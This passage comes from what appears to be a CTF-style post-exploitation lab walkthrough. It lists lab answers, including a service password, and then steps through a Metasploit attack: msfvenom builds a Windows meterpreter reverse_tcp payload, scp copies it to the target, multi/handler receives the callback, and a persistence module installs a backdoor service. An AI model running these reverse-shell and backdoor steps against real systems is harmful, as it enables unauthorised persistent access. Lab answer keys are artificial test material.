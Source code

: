 ##   Answer the questions below

What tool allows to view the event logs?

- event viewer

What is the SQL Service password

- MYpassword123#

* * * 

## Task 7 - Maintaining Access 

We will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

1. Generate payload with msfvenom ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.x.x.x LPORT=6669 -f exe -o shell.exe``
2. Transfer payload to target ``scp shell.exe Administrator@10.10.114.62:/Users/Administrator/Downloads``
3. in msfconsole ``use exploit/multi/handler``, configure payload ``set payload windows/meterpreter/reverse_tcp`` and set options to listen on port 6669 and ``run``
4. execute the binary on the target windows machine which should connect us with meterpreter shell.
5. ``background`` meterpreter shell to run persistance module.
6. setup persistance module ``use exploit/windows/local/persistance`` with ``set session 1`` then ``run``

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit ``exploit/multi/handler`` and setting the payload to ``windows/meterpreter/reverse_tcp`` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

## Task 8 - Conclustion

This room has given a good beginning with post-exploitation however there are a lot of other methods ever-evolving. I suggest to you to go out and do your own research find your own tools that you like to use for post-exploitation. I hope to make another room similar to this covering more advanced topics such as more in-depth backdoors and trojans, pivoting, token impersonation, and silver ticket attacks. I hope that this room has helped to give you a better understanding of how post-exploitation works in a real-world scenario.

Resources -

- [https://blog.harmj0y.net/](https://blog.harmj0y.net/)
- [https://adsecurity.org/?page_id=1821](https://adsecurity.org/?page_id=1821)
- [https://metasploit.help.rapid7.com/docs/about-post-exploitation](https://metasploit.help.rapid7.com/docs/about-post-exploitation)
- [http://www.pentest-standard.org/index.php/Post_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation)
- [https://offsec.red/mimikatz-cheat-sheet/](https://offsec.red/mimikatz-cheat-sheet/)
- [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
